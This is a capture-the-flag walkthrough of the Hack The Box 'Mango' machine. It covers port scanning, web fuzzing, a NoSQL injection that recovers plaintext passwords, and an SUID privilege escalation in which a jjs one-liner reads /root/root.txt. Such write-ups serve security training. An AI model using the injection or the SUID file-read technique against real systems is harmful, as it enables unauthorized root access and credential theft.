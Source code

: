 # [Mango](https://www.hackthebox.eu/home/machines/profile/214)
## IP : 10.10.10.162

## **Step 0** : Ports Scan

![Ports-scan](images/ports_scan.png)

So we have a 22 SSH Port, a 80 HTTP port and a 443 HTTPS port open.

## **Step 1** : Web enumeration

* The HTTP website is forbidden to us.

Fuzzing the HTTP tells us we need to authenticate, and gives us intel on the server.

![fuzz_80](images/fuzz_80.png)



* The 443 gives us some kind of web search engine.

Searching for a word sends a **POST** query :

> https://mango.htb/?search=hello

There is also a link to **analytics.php** 

* FUZZ resultsts : 

![fuzz_443](images/fuzz_443.png)

* We see that **Flexmonster** is used, with hints on dir / files.

```
ErrorUnable to open file flexmonster/codepen.key?438061533.

It seems that this file doesn't exist or 'Access-Control-Allow-Origin' header is absent in the requested resource.

Read more info about this error
Details: <h1>Bad Path</h1><h3 style="color: red">/boomboom/v2/flexmonster/codepen.key</h3>
OK
```

* Seems to be a rabbit hole.

* The ports scan tells us one thing about the 443 server : 

> ssl-cert: Subject: commonName=staging-order.mango.htb/organizationName=Mango Prv Ltd./stateOrProvinceName=None/countryName=IN

We find a web page with credidentials prompt.

> http://staging-order.mango.htb/index.php

With the `lab/exploit.py` we can find the admin password with NoSQL injection.

![find_password](images/find_password.png)

So, the password for user `admin` is `t9KcS3>!0B#2`

We found another user, `mango` with password `h3mXK8RhU~f{]f5H`


## SSH & Privilege escalation

```
ssh mango@mango.htb
```

* Using **SUID** permissions : 
```
$ find / -perm /4000
...
$ ls -l /usr/lib/jvm/java-11-openjdk-amd64/bin/jjs

-rwsr-sr-- 1 root admin 10352 Jul 18 18:21 /usr/lib/jvm/java-11-openjdk-amd64/bin/jjs
```
* We see that **admin** has root permissions on `jjs` : 

```
su admin
```
* Using GTFOBins with `jjs`

```
echo 'var BufferedReader = Java.type("java.io.BufferedReader");
var FileReader = Java.type("java.io.FileReader");
var br = new BufferedReader(new FileReader("/root/root.txt"));
while ((line = br.readLine()) != null) { print(line); }' | jjs
```

Owned Root !